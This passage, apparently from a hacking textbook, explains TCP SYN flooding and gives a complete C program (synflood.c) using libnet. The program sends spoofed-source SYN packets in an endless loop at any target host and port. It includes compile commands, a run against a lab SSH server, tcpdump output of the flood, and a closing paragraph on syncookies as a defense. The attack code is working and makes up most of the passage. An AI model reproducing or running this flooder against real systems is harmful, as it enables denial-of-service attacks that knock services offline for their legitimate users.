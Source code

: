 # *__SYN Flooding__*

A _SYN flood_ tries to exhaust states in the TCP/IP stack. Since TCP maintains “reliable” connections, each connection needs to be tracked somewhere. The TCP/IP stack in the _kernel_ handles this, but it has a finite table that can only track so many incoming connections. A SYN flood uses spoofing to take advantage of this limitation.

The attacker floods the victim’s system with many _SYN packets_, using a spoofed nonexistent source address. Since a SYN packet is used to initiate a TCP connection, the victim’s machine will send a _SYN/ACK_ packet to the spoofed address in response and wait for the expected _ACK response_. Each of these waiting, half-open connections goes into a backlog queue that has limited space. Since the spoofed source addresses don’t actually exist, the _ACK responses_ needed to remove these entries from the queue and complete the connections never come. Instead, each half-open connection must time out, which takes a relatively long time.

As long as the attacker continues to flood the victim’s system with spoofed SYN packets, the victim’s backlog queue will remain full, making it nearly impossible for real SYN packets to get to the system and initiate valid TCP/IP connections.

Using the `Nemesis` and `arpspoof` source code as reference, you should be able to write a program that performs this attack. The example program below uses _libnet_ functions pulled from the source code and socket functions previously explained. The _Nemesis_ source code uses the function _libnet_get_prand()_ to obtain pseudo-random numbers for various IP fields. The function _libnet_seed_prand()_ is used to seed the _randomizer_. These functions are similarly used below.

__synflood.c__

```c
#include <libnet.h>

#define FLOOD_DELAY 5000 // Delay between packet injects by 5000 ms.

/* Returns an IP in x.x.x.x notation */
char* print_ip(u_long* ip_addr_ptr) 
{
    return inet_ntoa( *((struct in_addr*)ip_addr_ptr) );
}

int main(int argc, char* argv[]) 
{
    u_long dest_ip;
    u_short dest_port;
    u_char errbuf[LIBNET_ERRBUF_SIZE], *packet;
    int opt, network, byte_count, packet_size = LIBNET_IP_H + LIBNET_TCP_H;

    if (argc < 3)
    {
        printf("Usage:\n%s\t <target host> <target port>\n", argv[0]);
        exit(1);
    }

    dest_ip = libnet_name_resolve(argv[1], LIBNET_RESOLVE); // The host
    dest_port = (u_short) atoi(argv[2]); // The port

    network = libnet_open_raw_sock(IPPROTO_RAW); // Open network interface.
    if (network == -1)
        libnet_error(LIBNET_ERR_FATAL, "can't open network interface. -- this program must run as root.\n");
    libnet_init_packet(packet_size, &packet); // Allocate memory for packet.
    if (packet == NULL)
        libnet_error(LIBNET_ERR_FATAL, "can't initialize packet memory.\n");

    libnet_seed_prand(); // Seed the random number generator.

    printf("SYN Flooding port %d of %s..\n", dest_port, print_ip(&dest_ip));
    while(1) // loop forever (until break by CTRL-C)
    {
        libnet_build_ip(LIBNET_TCP_H,       // Size of the packet sans IP header.
            IPTOS_LOWDELAY,                 // IP tos
            libnet_get_prand(LIBNET_PRu16), // IP ID (randomized)
            0,                              // Frag stuff
            libnet_get_prand(LIBNET_PR8),   // TTL (randomized)
            IPPROTO_TCP,                    // Transport protocol
            libnet_get_prand(LIBNET_PRu32), // Source IP (randomized)
            dest_ip,                        // Destination IP
            NULL,                           // Payload (none)
            0,                              // Payload length
            packet);                        // Packet header memory

        libnet_build_tcp(libnet_get_prand(LIBNET_PRu16), // Source TCP port (random)
            dest_port,                      // Destination TCP port
            libnet_get_prand(LIBNET_PRu32), // Sequence number (randomized)
            libnet_get_prand(LIBNET_PRu32), // Acknowledgement number (randomized)
            TH_SYN,                         // Control flags (SYN flag set only)
            libnet_get_prand(LIBNET_PRu16), // Window size (randomized)
            0,                              // Urgent pointer
            NULL,                           // Payload (none)
            0,                              // Payload length
            packet + LIBNET_IP_H);          // Packet header memory

        if (libnet_do_checksum(packet, IPPROTO_TCP, LIBNET_TCP_H) == -1)
            libnet_error(LIBNET_ERR_FATAL, "can't compute checksum\n");

        byte_count = libnet_write_ip(network, packet, packet_size); // Inject packet.
        if (byte_count < packet_size)
            libnet_error(LIBNET_ERR_WARNING, "Warning: Incomplete packet written. (%d of %d bytes)", byte_count, packet_size);

        usleep(FLOOD_DELAY); // Wait for FLOOD_DELAY milliseconds.
    }

    libnet_destroy_packet(&packet); // Free packet memory.

    if (libnet_close_raw_sock(network) == -1) // Close the network interface.
        libnet_error(LIBNET_ERR_WARNING, "can't close network interface.");

    return 0;
}
```

This program uses a _print_ip()_ function to handle converting the u_long type, used by _libnet_ to store IP addresses, to the struct type expected by _inet_ntoa()_. The value doesn’t change the typecasting just appeases the compiler.

The current release of _libnet_ is version _1.1_, which is incompatible with _libnet 1.0_. However, _Nemesis_ and _arpspoof_ still rely on the _1.0_ version of _libnet_, so this version is included in the LiveCD and this is also what we will use in our _synflood_ program. Similar to compiling with _libpcap_, when compiling with _libnet_, the flag `-lnet` is used. However, this isn’t quite enough information for the compiler, as the output below shows.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -o synflood synflood.c -lnet
In file included from synflood.c:1:
/usr/include/libnet.h:87:2: #error "byte order has not been specified, you'll"
synflood.c:6: error: syntax error before string constant
reader@hacking:~/booksrc $
</pre>

The compiler still fails because several mandatory define flags need to be set for libnet. Included with _libnet_, a program called _libnet-config_ will output these flags.

<pre style="color: white;">
reader@hacking:~/booksrc $ libnet-config --help
Usage: libnet-config [OPTIONS]
Options:
        [--libs]
        [--cflags]
        [--defines]
reader@hacking:~/booksrc $ libnet-config --defines
-D_BSD_SOURCE -D__BSD_SOURCE -D__FAVOR_BSD -DHAVE_NET_ETHERNET_H
-DLIBNET_LIL_ENDIAN
</pre>

Using the _BASH_ shell’s command substitution in both, these defines can be dynamically inserted into the compile command.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc $(libnet-config --defines) -o synflood
synflood.c -lnet
reader@hacking:~/booksrc $ ./synflood
Usage:
./synflood      &lt;target host&gt; &lt;target port&gt;
reader@hacking:~/booksrc $
reader@hacking:~/booksrc $ ./synflood 192.168.42.88 22
Fatal: can't open network interface. -- this program must run as root.
reader@hacking:~/booksrc $ sudo ./synflood 192.168.42.88 22
SYN Flooding port 22 of 192.168.42.88..
</pre>

In the example above, the host _192.168.42.88_ is a Windows XP machine running an __openssh__ server on port _22_ via _cygwin_. The `tcpdump` output below shows the spoofed SYN packets flooding the host from apparently random IPs. While the program is running, legitimate connections cannot be made to this port.

<pre style="color: white;">
reader@hacking:~/booksrc $ sudo tcpdump -i eth0 -nl -c 15 "host 192.168.42.88"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
17:08:16.334498 IP 121.213.150.59.4584 > 192.168.42.88.22: S
751659999:751659999(0) win 14609
17:08:16.346907 IP 158.78.184.110.40565 > 192.168.42.88.22: S
139725579:139725579(0) win 64357
17:08:16.358491 IP 53.245.19.50.36638 > 192.168.42.88.22: S
322318966:322318966(0) win 43747
17:08:16.370492 IP 91.109.238.11.4814 > 192.168.42.88.22: S
685911671:685911671(0) win 62957
17:08:16.382492 IP 52.132.214.97.45099 > 192.168.42.88.22: S
71363071:71363071(0) win 30490
17:08:16.394909 IP 120.112.199.34.19452 > 192.168.42.88.22: S
1420507902:1420507902(0) win 53397
17:08:16.406491 IP 60.9.221.120.21573 > 192.168.42.88.22: S
2144342837:2144342837(0) win 10594
17:08:16.418494 IP 137.101.201.0.54665 > 192.168.42.88.22: S
1185734766:1185734766(0) win 57243
17:08:16.430497 IP 188.5.248.61.8409 > 192.168.42.88.22: S
1825734966:1825734966(0) win 43454
17:08:16.442911 IP 44.71.67.65.60484 > 192.168.42.88.22: S
1042470133:1042470133(0) win 7087
17:08:16.454489 IP 218.66.249.126.27982 > 192.168.42.88.22: S
1767717206:1767717206(0) win 50156
17:08:16.466493 IP 131.238.172.7.15390 > 192.168.42.88.22: S
2127701542:2127701542(0) win 23682
17:08:16.478497 IP 130.246.104.88.48221 > 192.168.42.88.22: S
2069757602:2069757602(0) win 4767
17:08:16.490908 IP 140.187.48.68.9179 > 192.168.42.88.22: S
1429854465:1429854465(0) win 2092
17:08:16.502498 IP 33.172.101.123.44358 > 192.168.42.88.22: S
1524034954:1524034954(0) win 26970
15 packets captured
30 packets received by filter
0 packets dropped by kernel
reader@hacking:~/booksrc $ ssh -v 192.168.42.88
OpenSSH_4.3p2, OpenSSL 0.9.8c 05 Sep 2006
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Connecting to 192.168.42.88 [192.168.42.88] port 22.
debug1: connect to address 192.168.42.88 port 22: Connection refused
ssh: connect to host 192.168.42.88 port 22: Connection refused
reader@hacking:~/booksrc $
</pre>

Some operating systems (for example, Linux) use a technique called _syncookies_ to try to prevent SYN flood attacks. The TCP stack using _syncookies_ adjusts the initial acknowledgment number for the responding _SYN/ACK_ packet using a value based on host details and time (to prevent _replay attacks_). The TCP connections don’t actually become active until the final ACK packet for the TCP handshake is checked. If the sequence number doesn’t match or the ACK never arrives, a connection is never created. This helps prevent spoofed connection attempts, since the ACK packet requires information to be sent to the source address of the initial SYN packet.